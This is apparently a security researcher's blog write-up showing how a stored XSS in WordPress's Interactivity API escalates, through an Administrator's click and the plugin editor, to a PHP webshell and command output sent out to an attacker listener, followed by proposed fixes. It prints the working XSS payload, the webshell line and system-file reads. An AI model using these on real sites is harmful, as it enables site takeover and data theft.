



TL;DR
The first post showed that a below-unfiltered_html Author can store javascript: inside a data-wp-context blob and get it re-injected into the live href after hydration. One Administrator click runs attacker JS in the Administrator's origin.
This post answers the question that follows: what does that authority actually buy? On the bench, it bought the plugin editor. The XSS harvested the editor's nonce, wrote a one-line PHP webshell over hello.php, and the next HTTP request returned uid=0(root).
Two independent proofs: a file hash that changed and then restored, and an outbound callback from the WordPress host to an attacker listener carrying the command output. Not a local echo.
bind.ts. Reproduction only.
PreviouslyOne line of trust
In part one the finding was a disagreement. WordPress's server-side HTML writer asks whether a URL is safe before it writes it. The client-side Interactivity API does not ask at all. Between those two behaviours sits data-wp-context, a JSON blob that wp_kses_post() never inspects for protocols, and a bind directive that copies whatever it finds into the live DOM.
The proof stopped at the interesting part: the click. Administrator clicked, the script read 62 capabilities and performed a post create → read → delete. That is enough to call it privilege escalation, but it is not the scariest thing an Administrator's session can do. Administrators can edit plugin files. And plugin files are code that the web server executes.
So the sequel is not a new vulnerability. It is the same six lines of markup, followed further.
Chapter 1The bench
Same isolated Docker setup, rebuilt and pinned so the results are reproducible. Every hash below is from this exact bench.
| Item | Value |
|---|---|
| WordPress | 7.1.2 |
| PHP | 8.3.35 |
| Database | MariaDB (wpdb container) |
| Interactivity bundle | sha256 726ac595…6124e3 — the unguarded build |
hello.php baseline | sha256 1244904e…6d58fe53 |
| Container | cb722bffb922 |
DISALLOW_FILE_EDIT | false — plugin editor reachable by an Administrator |
| Access | 127.0.0.1:18080 → container 8080 |
The DISALLOW_FILE_EDIT value is not a bug in WordPress. It is a configuration knob that defaults to editing allowed, and a great many real sites leave it that way. Hold that thought for the honest asterisk later.
Chapter 2Six lines that lie
The payload is deliberately boring. No obfuscation, no encoding games, no framework tricks — because the point is that none are needed.
<div data-wp-interactive="pwn"
data-wp-context="{"u":"javascript:window.__XSS=1;void 0"}">
<a id="t" href="https://example.com/"
data-wp-bind--href="context.u">CAP</a>
</div>The validation run prints the whole disagreement on four lines:
[*] target: http://127.0.0.1:18080 (LOCAL ONLY)
[*] acting as: author uid=4 roles=['author']
[*] post created: #961 http=201 status=publish
[*] server href (kses, pre-hydration): 'https://example.com/'
[*] client href (post-hydration): 'javascript:window.__XSS=1;void 0'
[*] click marker executed: 1
PASS — stored XSS validated: server says https, browser executes javascript:Some house rules I learned the hard way, in case you want to reproduce it:
- The
javascript:URL must end with;void 0, or the browser navigates and the page is gone before the async body finishes. - Do not put a literal backslash,
<,>, or bare&inside thedata-wp-contextJSON — encode quotes as". - Wrap the island in a core
accordionblock: that is what makes the front end enqueue the Interactivity runtime. - A click is still required. The directive sets
href; it does not navigate.

data-* blob, so the served HTML still contains https://example.com/.Chapter 3The foot in the door
An Administrator's session is not just a badge. Behind it sits /wp-admin/plugin-editor.php — a page that shows the source of installed plugins and writes back whatever you submit. WordPress even prints a warning on it:
Heads up! You appear to be making direct edits to your plugin in the WordPress dashboard. Editing plugins directly is not recommended as it may introduce incompatibilities that break your site…
The warning is correct. It is also not an access control. An Administrator who reaches that page can rewrite PHP, and a script running in the Administrator's origin is indistinguishable from the Administrator — same cookies, same nonces, same origin, same POST permissions.

So the exploit is a three-beat chain:
- JavaScript in the admin's origin — the bind directive already gave us that.
- A nonce — fetched from
/wp-admin/, exactly as any legitimate admin page would. - A write —
POST newcontentto the plugin editor, replacing a harmless file with attacker-controlled PHP.
Nothing in that list is a WordPress vulnerability. Every step is a supported Administrator action. The vulnerability is that a lower-privileged user can borrow the Administrator's hands.
Chapter 4The climb
The chain script runs from the attacker's side. The Author publishes; the Administrator (a real bench account, bindadmin, uid 7) opens the post and clicks; everything after that happens inside the Administrator's tab.
author post: {'id': 962, 'http': 201, 'status': 'publish', 'author': 4}
written file: <?php echo shell_exec($_GET['cmd']);
$ id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
www-data:x:82:82::/home/www-data:/sbin/nologin
$ uname -a; hostname; pwd
Linux cb722bffb922 6.6.87.2-microsoft-standard-WSL2 ... x86_64 Linux
cb722bffb922
/var/www/html/wp-content/plugins
restored_ok: TrueRead that sequence carefully, because the order is the story. The Author never touches the editor. The Administrator's own browser does — through the poisoned link. The webshell is a payload written by the Administrator's session, and the first request to it comes from the attacker.
wp server --allow-root as uid 0 inside the container, so id returns uid=0(root). On a conventional deployment the web process runs as www-data and the same chain yields code execution as that user. Root is a property of this bench, not of the vulnerability. I would rather say that here than let a triager discover it.

uid=0(root) at the end is the bench's own property, explained above.Chapter 5Proof, not an echo
A webshell that echoes id is a nice screenshot and weak evidence. It proves code ran, but not that the server ran it in a way an attacker can control from outside. So the second run replaced the output channel: the payload on the WordPress host opened an outbound connection back to a listener on the attacker host and delivered the command output there.
$ python3 c2listener.py # attacker host, 0.0.0.0:9099
$ python3 rce_exfil_chain.py
author post: {'id': 963, 'http': 201, 'status': 'publish'}
written file: <?php echo shell_exec($_GET['cmd']);
$ id; hostname; uname -srmo
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),...
cb722bffb922
Linux 6.6.87.2-microsoft-standard-WSL2 x86_64 Linux
=== attacker listener log ===
2026-10-13T06:10:49.694163Z POST /exfil from 172.19.0.3 UA=curl/8.22.0
BODY: uid=0(root) gid=0(root) groups=0(root),1(bin),...
cb722bffb922
Linux 6.6.87.2-microsoft-standard-WSL2 x86_64 Linux
restored_ok: True | post_deleted: True172.19.0.3 is the WordPress container. 172.19.0.1 is the attacker host. The direction of that connection is the finding: the compromised server initiated egress and handed over command output. That is a command-and-control channel, not a local demo.
The cleanup matters too. hello.php was restored to 1244904e…6d58fe53 and the marker post deleted — the bench is left as found, and the integrity check is itself part of the evidence.
Chapter 6The honest asterisk
Three qualifications, all of which a reviewer should hear from me before they hear them from a triager.
One: this is not a memory-safety bug. The escalation is an abused Administrator feature, not a second vulnerability. The security defect remains the client/server policy asymmetry from part one. Everything after the click is what the Administrator's authority legitimately permits — which is exactly why it is worth fixing the click.
Two: root is specific to this bench. wp server --allow-root runs as uid 0 here. A standard LAMP/container deployment runs PHP as www-data; the chain still ends in code execution, just as that user. The realistic worst case is full site compromise — database credentials, user table, content, egress — plus whatever the web user can reach on the host filesystem.
Three: DISALLOW_FILE_EDIT is a config default, not an exploit trick. With it set to true, the RCE tail is cut and the chain falls back to data theft and persistent XSS. That is a defence, not a fix for the underlying bug.
Chapter 7Cutting the tail
The primary fix is unchanged from part one, because the root cause is unchanged: make the client enforce the policy the server already enforces.
Client-side scheme guard at the mutation boundary. Before bind writes any URI-bearing attribute, validate the final value against wp_allowed_protocols() and reject javascript:, data:, vbscript: — including encoded forms. I patched bind.ts on the bench to do exactly this and re-ran the chain: the javascript: write was blocked while legitimate https: links kept working.
// bind.ts — before setAttribute
if ( isUriAttribute( attribute ) && ! isAllowedUrl( result ) ) {
return; // refuse the write, leave the attribute untouched
}
el.setAttribute( attribute, result );Server defence in depth. Treat context-bound URI values in data-wp-bind--href from users without unfiltered_html as untrusted: validate the scheme, or strip the directive. Ship a CSP on post pages that restricts javascript: navigation.
Operational. Set DISALLOW_FILE_EDIT to true. It does not fix the XSS, but it removes the shortest path from a stolen admin session to code execution, and it costs nothing for most sites.
EpilogueReceipts
| Artefact | What it proves |
|---|---|
Post #961 | Minimal validation: server https, client javascript:, marker 1 |
Post #962 | Full chain: author published 201; webshell written; uid=0; hashes restored |
Post #963 | Exfil run: outbound POST /exfil from 172.19.0.3 to 172.19.0.1:9099 |
hello.php | 1244904e… → modified → restored (restored_ok: True) |
| Bundle hash | 726ac595…6124e3 — the unguarded interactivity build |
| Video | 42-second uncut screen recording of the chain |
The moral is the same one as part one, one layer deeper. The server and the browser are two programs wearing the same URL, and the gaps between them are where authority leaks. The first post found the gap. This one walked through it until the prompt changed colour.
Reproduced only; no production system contacted. Root is container root on a bench started with --allow-root; code execution as the web user is the portable claim. Upstream disclosure status is pending.